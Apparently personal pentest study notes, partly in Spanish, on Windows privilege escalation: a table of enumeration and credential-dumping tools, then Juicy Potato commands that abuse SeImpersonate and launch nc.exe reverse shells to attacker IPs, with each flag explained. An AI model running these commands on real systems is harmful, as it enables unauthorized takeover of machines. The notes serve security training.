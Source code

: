 # Windows Privilege Escalation

## Useful tools

| Tool                              | Description                                                                                                                                                                                                 |
|-----------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Seatbelt                          | C# project for performing a wide variety of local privilege escalation checks                                                                                                                               |
| winPEAS                           | WinPEAS is a script that searches for possible paths to escalate privileges on Windows hosts. All of the checks are explained here                                                                          |
| PowerUp                           | PowerShell script for finding common Windows privilege escalation vectors that rely on misconfigurations. It can also be used to exploit some of the issues found                                          |
| SharpUp                           | C# version of PowerUp                                                                                                                                                                                       |
| JAWS                              | PowerShell script for enumerating privilege escalation vectors written in PowerShell 2.0                                                                                                                   |
| SessionGopher                     | SessionGopher is a PowerShell tool that finds and decrypts saved session information for remote access tools. It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, and RDP saved session information          |
| Watson                            | Watson is a .NET tool designed to enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities.                                                                                      |
| LaZagne                           | Tool used for retrieving passwords stored on a local machine from web browsers, chat tools, databases, Git, email, memory dumps, PHP, sysadmin tools, wireless network configurations, internal Windows password storage mechanisms, and more |
| Windows Exploit Suggester - Next Generation | WES-NG is a tool based on the output of Windows’ systeminfo utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 10 is supported |
| Sysinternals Suite                | We will use several tools from Sysinternals in our enumeration including AccessChk, PipeList, and PsService                                                                                                 |
                                                                                                                               |

- [Payload all the things Windows PrivEsc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [More Binaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
- [Lista de privilegios interesantes](https://github.com/gtworek/Priv2Admin)

## SeImpersonate and SeAssignPrimaryToken

### SeImpersonate example - Juicy Potato

- Muchas veces cuando conseguimos un acceso a un usuario de un servicio, o sea una service account como puede ser sql server, al revisar los privilegios de ese usuario, vemos que tiene el privilegio SeImpersonate..
- Podemos utilizar juicypotato para conseguir un token de servicio con el privilegio SeImpersonate.
    - Juicy potato es un script de windows que nos permite obtener un token de servicio con privilegios elevados.
    - https://github.com/ohpe/juicy-potato
- Explota privilegios via DCOM/NTLM (SeImpersonate).
- `JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *`
    - explicación del comando:
        - `-l 53375` es el puerto que se va a utilizar para la comunicación.
        - `-p c:\windows\system32\cmd.exe` es la ruta de la binary que se va a ejecutar.
        - `-a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe"` es la argumento que se va a pasar a la binary que se va a ejecutar.
        - `-t *` es el token de servicio que se va a utilizar.
- Es importante tener en cuenta los [CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID), para extraerlos de la maquina podemos usar [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1)
    - Entonces por ejemplo tenemos el siguiente comando: `.\Juicy.Potato.x86.exe -l 53375 -p c:\Windows\System32\cmd.exe -a "/c c:\wamp\www\nc.exe 192.168.45.210 5555 -e cmd.exe" -t * -c {C49E32C6-BC8B-11d2-85D4-00105A1F8304}`
- Este CLSID es del proceso winmgmt dentro de windows server 2008 R2 Enterprise
